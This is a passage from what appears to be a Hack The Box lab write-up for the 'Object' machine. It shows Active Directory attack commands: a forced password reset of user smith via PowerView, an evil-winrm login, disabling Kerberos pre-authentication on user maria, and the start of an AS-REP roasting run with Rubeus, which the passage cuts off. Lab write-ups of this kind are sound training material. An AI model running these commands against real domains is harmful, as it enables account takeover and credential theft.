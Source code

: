 
So first lets change smith's password so we can access their account and privileges.

I usually do this with `net rpc`, but that won't work here because SMB isn't open on the target:

```
┌──(ryan㉿kali)-[~/HTB/Object]
└─$ net rpc password "smith" "password123" -U "oliver"%"c1cdfun_d2434" -S "10.129.96.147"
Failed to set password for 'smith' with error: Failed to connect to IPC$ share on 10.129.96.147.
```

Lets do this with PowerView.ps1

```
*Evil-WinRM* PS C:\temp> . .\PowerView.ps1
*Evil-WinRM* PS C:\temp> $newpass = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
*Evil-WinRM* PS C:\temp> Set-DomainUserPassword -Identity smith -AccountPassword $newpass -verbose
Verbose: [Set-DomainUserPassword] Attempting to set the password for user 'smith'
Verbose: [Set-DomainUserPassword] Password for user 'smith' successfully reset
```

Lets confirm that worked by logging in with evil-winrm as user smith:

```
┌──(ryan㉿kali)-[~/HTB/Object]
└─$ evil-winrm -u smith -p 'Password123!' -i  10.129.96.147

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\smith\Documents> hostname
jenkins
```

Next we now have to work with user smith having GenericWrite access over another user, maria.

Lets do that with:

```
*Evil-WinRM* PS C:\temp> Set-ADAccountControl -Identity maria -DoesNotRequirePreAuth $true
```

I can then use Rubeus.exe to extract the hash:

```
*Evil-WinRM* PS C:\temp> .\Rubeus.exe asreproast /user:maria /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: AS-REP roasting

[*] Target User            : maria
[*] Target Domain          : object.local

[*] Searching path 'LDAP://jenkins.object.local/DC=object,DC=local' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304)(samAccountName=maria))'
```